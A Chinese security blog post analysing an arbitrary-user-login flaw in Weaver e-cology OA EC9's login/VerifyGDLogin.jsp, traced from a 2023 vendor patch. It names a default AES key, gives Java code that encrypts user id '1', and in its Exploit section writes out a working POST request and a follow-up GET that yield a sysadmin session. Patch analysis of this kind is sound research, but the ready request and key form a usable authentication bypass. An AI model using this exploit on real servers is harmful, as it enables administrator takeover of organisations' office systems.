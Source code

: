 

# 某OA EC9 VerifyGDLogin任意用户登录分析 - 先知社区

某OA EC9 VerifyGDLogin任意用户登录分析

- - -

## 0x01 前言

在跟踪泛微补丁包时发现`Ecology_security_20230725_v9.0_v10.58.3`的`SecurityRuleGdLogin0317`的补丁疑似修复了一个SQL注入，因此跟踪下看看

[![](assets/1701678526-0c395faeb0159a585e88d0e1e61f8b8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129151943-aac0797e-8e87-1.png)

上图为补丁关键操作，看内容像是进行了SQL注入检测，后续分析发现是一处任意用户登录

## 0x02 分析

跟踪关键文件`login/VerifyGDLogin.jsp`

[![](assets/1701678526-ba072af16128b804b6c21768107ab085.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152010-bb4972aa-8e87-1.png)

看源码为从URI中获取`para`、`para1`、`para2`后调用`PoppupRemindInfoUtil.decrypt`对`para2`做解密，然后通过`weaver.login.VerifyGDLogin#getUserCheck`方法进行登录校验

[![](assets/1701678526-984810f64d1b59310bd62f2d62c45d36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152019-c065a394-8e87-1.png)

其中`PoppupRemindInfoUtil.decrypt`方法首先会校验`WEB-INF/prop/AESpassword.properties`中的`pwd`项是否为空，不为空则赋值给`var1`，为空则给`var1`赋值`1`

[![](assets/1701678526-7dcf98168ef33f59b5376e1a3562e37a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152024-c3286238-8e87-1.png)

然后使用`SM4IntegrationUtil.USE_SM4`方法判断是否启用了国密`SM4加密算法`，如启用则使用SM4解密，否则调用`AES.decrypt`进行解密，默认为`false`

[![](assets/1701678526-ea34df91afa812523d760f4fe03b78cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152028-c5e8ff8c-8e87-1.png)

其中`AES.decrypt`方法如下

[![](assets/1701678526-a1e3f199ab6b5c8bd048166d6c3f1be0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152034-c9381a74-8e87-1.png)

那么加密函数就为`AES.encrypt`，代码如下

```plain
public static String encryptAES_SunJCE(String var0, String var1) {
        byte[] var2 = null;
        try {
            KeyGenerator var3 = KeyGenerator.getInstance("AES");
            SecureRandom var4 = SecureRandom.getInstance("SHA1PRNG");
            var4.setSeed(var1.getBytes());
            var3.init(128, var4);
            SecretKey var5 = var3.generateKey();
            byte[] var6 = var5.getEncoded();
            SecretKeySpec var7 = new SecretKeySpec(var6, "AES");
            Cipher var8 = Cipher.getInstance("AES", "SunJCE");
            byte[] var9 = var0.getBytes();
            var8.init(1, var7);
            var2 = var8.doFinal(var9);
        } catch(NoSuchProviderException var10) {
            var10.printStackTrace();
        } catch(NoSuchAlgorithmException var11) {
            var11.printStackTrace();
        } catch(NoSuchPaddingException var12) {
            var12.printStackTrace();
        } catch(InvalidKeyException var13) {
            var13.printStackTrace();
        } catch(IllegalBlockSizeException var14) {
            var14.printStackTrace();
        } catch(BadPaddingException var15) {
            var15.printStackTrace();
        }
        return var2 == null ? "" : Tools.parseByte2HexStr(var2);
    }
```

生成加密数据的代码

```plain
package test;
import com.pluginweaver.utils.CryptTool;

public class testAesCrypt {
    public static void main(String[] args) {
        //4DUa6Wq9
        //1
        String cryptStr="1";
        String enStr=CryptTool.encryptAES_SunJCE( cryptStr,"4DUa6Wq9");
        System.out.println(enStr);
    }
}
```

[![](assets/1701678526-922b3693aa799f3f07314205a556a5c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152041-cd4ac2e2-8e87-1.png)

## 0x03 Exploit

按照前文分析构造好数据包后发送

```plain
POST /login/VerifyGDLogin.jsp HTTP/1.1
Host: 192.168.232.129
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

para=ViewRequest.jsp&para1=123&para2=E4D160ED60A81E804F24EE2AE592D66F
```

[![](assets/1701678526-e3c810077d2cdf36804ce2e0195a662c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152047-d0e81512-8e87-1.png)

复制返回的`ecology_JSessionid`访问需要鉴权的接口即可以`sysadmin`登录

```plain
GET /api/hrm/login/getAccountList?__random__=1700633695101 HTTP/1.1
Host: 192.168.232.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Accept: */*
Referer: http://192.168.232.129/wui/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ecology_JSessionid=aaaOhmJeYzN2NbvHFv1Vy;
Connection: close
```

[![](assets/1701678526-d60340b78d411b0c75a27836d18054b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129152052-d3e42fa8-8e87-1.png)
